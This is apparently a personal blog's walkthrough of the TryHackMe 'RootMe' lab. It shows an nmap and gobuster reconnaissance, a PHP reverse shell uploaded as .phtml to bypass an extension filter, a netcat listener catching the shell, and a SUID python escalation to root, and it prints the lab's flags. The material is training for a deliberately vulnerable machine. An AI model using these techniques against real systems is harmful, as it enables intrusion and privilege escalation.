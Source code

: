 ```yaml
---
layout: post
title: RootMe
subtitle: TryHackME - RootMe
description: Enumerate services, scan TCP/UDP ports, exploit vulnerabilities, and escalate privileges to capture flags.
image: https://tryhackme-images.s3.amazonaws.com/room-icons/11d59cb34397e986062eb515f4d32421.png
optimized_image: https://tryhackme-images.s3.amazonaws.com/room-icons/11d59cb34397e986062eb515f4d32421.png
tags:
  - TryHackME
  - Privilege Escalation
  - Find Flags
author: Mustafa Altayeb
date: 2025-11-01:00
paginate: true
---
```


# RootMe
[RootMe](https://tryhackme.com/room/rrootme)

![](https://tryhackme-images.s3.amazonaws.com/room-icons/11d59cb34397e986062eb515f4d32421.png)

## Objectives
1. **Enumerate TCP ports** using Nmap
2. **Enumerate HTTP service** on port 80
3. **Enumerate web directories** using Gobuster
4. **Gain initial access** with a reverse shell via file upload exploit
5. **Privilege escalation** using SUID Python binary
6. **Capture the user and root flags**

## Reconnaissance

### Nmap Scan
Port scan:
```bash
nmap -sCV -p- -T4 10.10.233.74  
```
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c5:79:36:d3:0a:b3:7d:e0:0d:23:1c:37:7f:7e:d2:bb (RSA)
|   256 4a:e6:49:ff:cf:fa:7e:89:37:19:2d:ed:17:05:84:9c (ECDSA)
|_  256 c4:3f:fd:cf:f7:b4:8a:3e:9f:c8:d5:33:ef:21:c7:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
**Key Findings**:
- **Port 22**: SSH service, version OpenSSH 8.2p1
- **Port 80**: Apache httpd 2.4.41

## Web Enumeration

![](/assets/TryHackMeRoomsImage/RootMe/image.png)
Nothing interesting here .
Let's enum web directories

Gobuster may find special directories.

## Gobuster

>|**gobuster dir --url http://10.10.233.74 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt**

**Result**
```js
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.233.74/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.233.74/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.233.74/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.233.74/panel/]
```

**Findings**:
- After visiting pages in the Gobuster results, I found:
  1. `/uploads`: no thing here .
     
  2. `/panel`: file upload page .

![](/assets/TryHackMeRoomsImage/RootMe/image2.png)

 I will use [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

  - i tried to upload `php` shell but extension permitted i make it `phtml` and it's work 
  ![](/assets/TryHackMeRoomsImage/RootMe/image3.png)

We can access `uploads` with the link `http://10.10.233.74/uploads/shell.phtml`

## Initial Access via Reverse Shell

create listener with Netcat:

```bash
nc -nlvp 9090
```
access reverse shell with `http://10.10.233.74/uploads/shell.phtml`

```bash
nc -nlvp 9090                                                     
listening on [any] 9090 ...
connect to [10.14.109.66] from (UNKNOWN) [10.10.233.74] 54604
................
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

## Privilege Escalation

### System Exploration
Find SUID binaries : 
>**find / -perm -u=s -type f 2>/dev/null**

```js
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
.
.
.

/usr/bin/python2.7
..
.
.
```

Find SUID python searching in GTFObins i find : 
 ![](/assets/TryHackMeRoomsImage/RootMe/image4.png)

in first command it's install python we have it already 
let's run the second command 

>**python -c 'import os; os.execl("/bin/sh", "sh", "-p")'**

```js
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
whoami
root
```
flags if you care about it :

The user flag is in /var/www `THM{y0u_g0t_a_sh3ll}`
The root flag is in /root `THM{pr1v1l3g3_3s.......}`

Finished. Happy Hacking!



<iframe src="https://tryhackme.com/api/v2/badges/public-profile?userPublicId=3186403" style="border:none;"></iframe>

Follow me:
- [LinkedIn](https://www.linkedin.com/in/t4t4r1s/)
- [X](https://x.com/T4T4R1S)

---